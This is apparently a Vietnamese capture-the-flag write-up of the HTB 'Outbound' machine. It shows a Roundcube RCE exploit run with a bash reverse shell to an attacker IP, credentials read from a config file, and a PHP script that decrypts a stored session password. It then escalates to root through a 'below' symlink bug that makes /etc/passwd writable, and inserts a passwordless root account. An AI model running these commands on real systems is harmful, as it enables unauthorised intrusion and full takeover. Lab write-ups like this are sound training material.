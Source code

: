 # outbound

Date de création: August 10, 2025 9:18 PM

1. Khi vào web, mình thấy đây là một trang liên quan đến mail, sử dụng roundcubin. Vì vậy mà mình đã tìm kiếm với từ khóa “roundcube cve rce” và ra được 

https://github.com/hakaioffsec/CVE-2025-49113-exploit

1. Tiếp theo là làm theo hướng dẫn và rce thành công. File cve là mình lấy code từ file php ở repo.
    
    ```bash
    php cve http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "bash -c '/bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1'" 
    ```
    
2. Vì người dùng khi mình rev shell chỉ là system user (`uid=33(www-data) gid=33(www-data) groups=33(www-data)` ) vì thế nên là người dùng này khó leo quyền lên root vì vậy mà trước hết cần tìm credentials của user nào đó ngon hơn. Mà cũng vì người dùng này quyền thấp nên chắc chắn chỉ có thể tìm thông tin trong file nào đó ví dụ như trong file conf của web từ đó có thể truy cập database, biết key mã hóa và có thể có log user sẽ chứa mật khẩu. Trước hết là check file conf, sử dụng lệnh sau:
    
    ```bash
    cat /var/www/html/roundcube/config/config.inc.php
    ```
    
    Sau đó, thì lấy được thông tin sau: 
    
    ![image.png](image.png)
    
    Thực hiện kết nối đến cơ sở dữ liệu, nhận thấy thành công. Thực select dữ liệu nhận thấy trả về session của user `jacob`, thực hiện decode được giá trị sau:
    
    ![image.png](image%201.png)
    
    Tất nhiên đây là mật khẩu hash. Vậy thì để giải mã cần biết là backend dùng thuật toán gì, key nào. Và chúng ta có thể tìm thấy trong file conf, lấy được key:
    
    ![image.png](image%202.png)
    
    Giờ cần code decrypt, mình tạo lại từ đây: [roundcubemail/program/lib/Roundcube/rcube.php at master · roundcube/roundcubemail · GitHub](https://github.com/roundcube/roundcubemail/blob/master/program/lib/Roundcube/rcube.php#L845) và được đoạn code sau (tất nhiên có 1 chút sự trợ giúp từ (các)anh):
    
    ```php
    <?php
    
    /**
     * Decrypt Roundcube 3DES-CBC-encrypted password using OpenSSL.
     *
     * @param string $base64_cipher Base64 encoded encrypted string (from session)
     * @param string $des_key 24-byte key from $rcmail_config['des_key']
     * @return string|false Decrypted password or false if decryption fails
     */
    function roundcube_decrypt_3des_openssl($base64_cipher, $des_key)
    {
        // Decode base64
        $cipher = base64_decode($base64_cipher);
        if ($cipher === false) {
            return false;
        }
    
        $iv_size = 8; // 3DES CBC IV is 8 bytes
        $iv = substr($cipher, 0, $iv_size);
        $ciphertext = substr($cipher, $iv_size);
    
        // Ensure key is 24 bytes (for 3DES)
        $key = str_pad(substr($des_key, 0, 24), 24, "\0");
    
        // Decrypt using OpenSSL
        $plaintext = openssl_decrypt(
            $ciphertext,
            'DES-EDE3-CBC',     // 3DES in CBC mode
            $key,
            OPENSSL_RAW_DATA,
            $iv
        );
    
        if ($plaintext === false) {
            return false;
        }
    
        // Trim null padding and canary byte at the end
         echo '_____' . $plaintext . '_________';
        // $plaintext = substr(rtrim($plaintext, "\0"), 0, -1);
    
        return $plaintext;
    }
    
    // ============================================
    // Example usage
    
    // From your Roundcube config
    $des_key = 'rcmail-!24ByteDESkey*Str'; // ← your real 24-byte key
    
    // From MySQL session `vars` column (after extracting password value)
    $encrypted_base64 = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"; // ← your actual encrypted base64 string
    
    $decrypted_password = roundcube_decrypt_3des_openssl($encrypted_base64, $des_key);
    
    if ($decrypted_password !== false) {
        echo "Decrypted password: " . $decrypted_password . PHP_EOL;
    } else {
        echo "Decryption failed." . PHP_EOL;
    }
    
    ```
    
    Và mình lấy được password 595mO8D*****. Vậy thì thử `su` jacob được không. Và hãy nhớ chúng ta chỉ đang ở trong một container. Sau đó mình thành đổi sang user jacob và đọc mail, từ đó lấy được pass để ssh. Mật khẩu là ….
    
    Ok giờ thì mình xem có thể leo quyền bằng cách nào?
    
    Dùng `sudo -l` , nhận thấy có lệnh below có thể chạy sudo mà không cần pass.
    
    ![image.png](image%203.png)
    
    Và mình lại search thì tìm được cve này **CVE-2025-27591** và sử dụng đoạn shell này là có thể leo quyền thành công [CVE-2025-27591/CVE-2025-27591.sh at main · obamalaolu/CVE-2025-27591 · GitHub](https://github.com/obamalaolu/CVE-2025-27591/blob/main/CVE-2025-27591.sh)
    
    ![image.png](image%204.png)
    
    Tuy nhiên thì mình nghe nói cve dễ thực hiện nên cũng thử tự làm thay vì dùng shell sẵn.
    
    Thì below sẽ hoạt động theo cách là sẽ tạo một thư mục có thể ghi trên toàn cục dù thư mục đó đã tồn tại thì nó sẽ set lại full quyền cho nó:
    
    ```rust
     if perm.mode() & 0o777 != 0o777 {
            perm.set_mode(0o777);
            match dir.set_permissions(perm) {
                Ok(()) => {}
                Err(e) => {
                    bail!(
                        "Failed to set permissions on {}: {}",
                        path.to_string_lossy(),
                        e
                    );
                }
            }
        }
    ```
    
    Thì khi tạo 1 symlink trỏ đến /etc/passwd mà below gọi đến symlink này, nó sẽ set quyền cho /etc/passwd luôn dẫn đến người dùng thường cũng có quyền ghi. Source code của below ở đây https://github.com/facebookincubator/below/blob/v0.8.1/below/src/main.rs#L379
    
    Vậy thì mình cũng có thể tự thực hiện:
    
    1. Ban đầu file /etc/passwd không có quyền đọc bởi user thường:
        
        ![image.png](image%205.png)
        
    2. Tiếp đến là tạo symlink:
        
        ```bash
        ln -s /etc/passwd /var/log/below/error_root.log
        ```
        
        Và kiểm tra tạo thành công không:
        
        ![image.png](image%206.png)
        
    3. Thực hiện chạy below để nó gọi đến error_root.log nhưng thực tế là gọi đến /etc/passwd và set thêm quyền cho /etc/passwd (ở bài này chỉ set là 0666).
        
        ![image.png](image%207.png)
        
        Tạo symlink
        
        ```bash
        ln -sf /etc/passwd /var/log/below/error_root.log
        ```
        
        Chạy `below` với quyền `sudo`
        
        ```bash
        sudo below
        ```
        
        Nhận thấy user có thể ghi file /etc/passwd. Việc còn lại là ghi text sau vào /etc/passwd:
        
        Tạo mật khẩu hash, trực tiếp ghi vào /etc/passwd.
        
        ```bash
        datht::0:0:root:/root:/bin/bash
        ```
        
        ![image.png](image%208.png)